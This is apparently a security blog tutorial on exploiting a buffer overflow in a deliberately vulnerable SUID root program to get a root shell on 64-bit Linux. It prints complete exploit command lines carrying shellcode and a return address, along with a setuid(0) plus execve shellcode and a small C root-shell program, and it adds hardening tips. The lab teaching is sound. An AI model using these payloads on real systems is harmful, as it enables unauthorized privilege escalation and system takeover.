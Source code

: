 ```yaml
---
layout: post
title: "Buffer overflow - getting a root shell"
date: 2020-01-02
tags: [security, linux, programming, vulnerabilities]
---
```


The vulnerable program from the previous article spawned a shell when we exploited it, but the shell did not get us any special permissions. That's to be expected, as the vulnerable program ran with normal user privileges.

There are multiple ways to go from normal user privilege to super user privilege, and we'll look more at this later, but for now we'll focus on SUID binaries.

## SUID binaries

When root is the owner of a file, and the SUID/setuid bit is set, the program runs (when executed by a normal user) with the highest privlege.

To turn `bo_vuln1` into a SUID root binary, we set root as the owner, and set the SUID bit:

```bash
$ sudo chown root bo_vuln1
$ sudo chmod u+s  bo_vuln1
$ ls -l bo_vuln1
-rwsrwxr-x. 1 root user 19552 Jul 22 17:19 bo_vuln1
```

When we execute the above program, we run it with using our *real* user ID (the user we are logged in as), but the program runs with root as its *effective* user ID.

> The SUID bit makes a program run with the *owner's* privileges. It is displayed as "s" in the file permissions (e.g. `ls -l` output).

## Prevent privilege drop in bash

Running the same exploit as earlier, on the now SUID root `bo_vuln1`, we still get a shell with no special privileges:

```bash
$ env - PWD=$PWD SHLVL=0 $PWD/bo_vuln1 `python -c 'print 30 * "\x90" + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + 17 * "a" + 8 * "b" + "\x38\xec\xff\xff\xff\x7f"'`
sh-4.4$
```

This happens because bash (and most other modern shells) will set the effective user ID to the real user ID unless we use the `-p`  option, i.e. the root privilege is *dropped*.

> The `-p` option in bash is the same as `-o privileged`.

We can see that this is true by calling `execve` to launch a shell (which is the method used by our shellcode) in a small suid root program:

```c
/*
 * rootsh.c
 * gcc rootsh.c -o rootsh -std=c99
 */

#include <unistd.h>

int main()
{
    execve("/bin/sh", (char *[]){"/bin/sh", "-p", NULL}, NULL);
}
```

After compiling, set root as owner, and set the setuid bit:

```
$ sudo chown root rootsh
[sudo] password for <user>:
$ sudo chmod u+s rootsh
$ ls -l rootsh
-rwsrwxr-x. 1 root user 18288 Aug  8 21:12 rootsh
```

When the program is executed by a normal user, it spawns a root shell:

```
$ ./rootsh
sh-4.4# whoami
root
sh-4.4#
```

> Delete the file or remove the setuid bit by using `chmod -s <FILE>`. Don't leave vulnerable programs with a SUID bit, it's probably smart the create a "superuser" or similar *normal* user to use as the owner of a SUID file for educational purposes.

On 32-bit systems "/bin/sh -p" shellcode is easy to create since arguments to functions are passed on the stack, but on 64-bit it's difficult since registers are used to pass arguments (the string with the "-p" option is too long for a register).

> We'll look more at the challenges of writing shellcode in a later chapter.

An alternative to using the `-p` option is to use a shellcode which first runs `setuid()` to set the user identity to uid 0 (root), then execute a shell. Let's grab a shellcode from shell-storm.org.

> I've chosen the 48 byte Linux x86_64 `setuid(0) + execve(/bin/sh)` by xi4oyu, available at http://shell-storm.org/shellcode/files/shellcode-77.php. The author did not zero out `rax` before moving the system call number for `execve` into the lower 8 bits of the register, so the call to `setuid` could fail. I've prefixed three bytes in the shellcode below that zeroes out `rax`, making the shellcode 51 bytes.

The bytes of the (fixed) shellcode are as follows:

```
\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05
```

`bo_vuln1` is still set with root as owner and with the SUID bit. Let's run the shellcode (note that the NOP sled is decreased since the shellcode is longer):

```bash
$ env - PWD=$PWD SHLVL=0 $PWD/bo_vuln1 `python -c 'print 12 * "\x90" + "\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05" + 17 * "a" + 8 * "b" + "\x38\xec\xff\xff\xff\x7f"'`
sh-4.4# echo $EUID
0
sh-4.4# whoami
root
sh-4.4#
```

> Filesystems mounted with the `nosuid` mount option in (see the file `/proc/mounts`) will ignore the SUID or SGID bit, making this type of privilege escalation impossible.

